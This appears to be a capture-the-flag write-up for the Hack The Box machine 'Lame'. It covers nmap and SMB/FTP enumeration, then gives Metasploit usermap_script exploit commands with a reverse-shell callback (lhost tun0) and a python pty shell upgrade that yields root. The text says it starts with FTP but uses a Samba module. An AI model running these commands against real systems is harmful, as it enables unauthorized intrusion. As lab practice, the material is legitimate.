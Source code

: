 ```yaml
---
title: "Lame - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Lame
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
---
```


## Lame
![](https://kar0nx.github.io/assets/images/writeup/fb2d9f98400e3c802a0d7145e125c4ff.webp)
 
## Reconnaissance

IP: 10.10.10.3
### NMAP

```
nmap -T4 -A -p- 10.10.10.3
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 09:26 EST
Nmap scan report for 10.10.10.3
Host is up (0.031s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.43
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), DD-WRT v24-sp1 (Linux 2.4.36) (90%), Control4 HC-300 home controller (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.7 (90%), Citrix XenServer 5.5 (Linux 2.6.18) (90%), Linux 2.6.27 - 2.6.28 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-02-19T09:28:43-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m16s, deviation: 3h32m10s, median: 14s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   30.62 ms 10.10.14.1
2   30.89 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.08 seconds

```

Nmap shows open ports on ftp (21), ssh (22), smb (139,445)
### SMB

```
smbclient -L //10.10.10.3  
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219153103.png)

We can't do much here, lets search for exploits.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219153935.png)

### FTP

Anonymous login is allowed, but directory is empty
Searching for exploits

```
searchsploit vsftpd 2.3.4    
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219153607.png)
## Gaining Access

I will use Metasploit, lets start with FTP

```
use exploit/multi/samba/usermap_script

set rhosts 10.10.10.3

set lhost tun0
```

shows empty line but after few commands works fine

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219155256.png)

If doesn't work, spawn shell via python

```
‍python -c 'import pty; pty.spawn("bash")'
```

We have root access. Now go and find your flags.